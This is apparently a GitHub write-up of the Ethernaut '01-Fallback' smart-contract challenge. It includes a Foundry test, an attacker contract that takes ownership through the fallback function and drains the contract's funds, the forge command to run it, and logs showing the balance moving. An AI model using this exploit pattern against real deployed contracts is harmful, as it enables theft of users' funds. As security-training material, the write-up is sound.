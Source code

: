 # What is OpenZeppelin Ethernaut?

`OpenZeppelin Ethernaut` is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: ethernaut.openzeppelin.com

# What You're Supposed to Do?

in `01-Fallback` Challenge, You Should Try To find a Way to Do the Following:

1. You Claim ownership of the Contract From Someone else.
2. Find a Way to Steal All Funds From the Contract.

`01-Fallback` Challenge Link: ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB


# How to Complete this Challenge?

Take a Look at `testAttackerCanTakeOwnershipAndStealAllFunds` test at `TestFallback.t.sol`:

```javascript

    modifier multipleContributes {
        address[] memory users = new address[](10);
        for (uint i = 0; i < 10; i++) {
            users[i] = address(uint160(i + 1));

            vm.startPrank(users[i]);
            vm.deal(users[i],10 ether);
            fback.contribute{value: 0.0001 ether}();
            vm.stopPrank();
        }
        _;
    }


    function testAttackerCanTakeOwnershipAndStealAllFunds() external multipleContributes {
            vm.startPrank(attacker);
            vm.deal(attacker, 0.1 ether);
            AttackerContract attackerContract = new AttackerContract(fback, attacker);

            uint256 attackerContractBalanceBeforetheAttack = address(attackerContract).balance;
            uint256 fallbackContractBalanceBeforetheAttack = address(fback).balance;

            attackerContract.attack{value: 0.1 ether}();

            uint256 attackerContractBalanceAftertheAttack = address(attackerContract).balance;
            uint256 fallbackContractBalanceAftertheAttack = address(fback).balance;

            console2.log("Attacker Contract Balance Before the Attack: ", attackerContractBalanceBeforetheAttack);
            console2.log("Fallback Contract Balance Before the Attack: ", fallbackContractBalanceBeforetheAttack);

            console2.log("Attacker Contract Balance After the Attack: ", attackerContractBalanceAftertheAttack);
            console2.log("Fallback Contract Balance After the Attack: ", fallbackContractBalanceAftertheAttack);

            assertEq(attackerContractBalanceBeforetheAttack, fallbackContractBalanceAftertheAttack);
            assertEq(attackerContractBalanceAftertheAttack, fallbackContractBalanceBeforetheAttack + 0.1 ether);

            vm.stopPrank();
        }

```

And this is the Contract the Attacker Used to Steal All the Funds of the Fallback Contract:

```javascript
    contract AttackerContract {

        Fallback fallbackContract;
        address private immutable attacker;

        modifier onlyOwner {
            if (msg.sender != attacker) {
                revert("You're Not Owner!");
            }
            _;
        }

        constructor(Fallback _fallbackContract, address _attacker) {
            fallbackContract = _fallbackContract;
            attacker = _attacker;
        }

        function attack() external payable {
            fallbackContract.contribute{value: 0.0001 ether}();
            (bool success,) = address(fallbackContract).call{value: 0.000001 ether}("");
            require(success,"Low Level Call Failed!");
            fallbackContract.withdraw();
        }

        function withdrawContractBalance() external {
            uint256 thisContractBalance = address(this).balance;
            payable(attacker).transfer(thisContractBalance);
        }

        receive() external payable {

        }

        fallback() external payable {

        }

    }
```

You Can Perform the Attack by Running Following Command in Your Terminal: (it is Required to Have Foundry installed.)

```javascript
     forge test --match-test testAttackerCanTakeOwnershipAndStealAllFunds -vvvv
```

then Take Look at Logs:

```javascript
    Logs:
        Attacker Contract Balance Before the Attack:  0
        Fallback Contract Balance Before the Attack:  1000000000000000
        Attacker Contract Balance After the Attack:  101000000000000000
        Fallback Contract Balance After the Attack:  0
```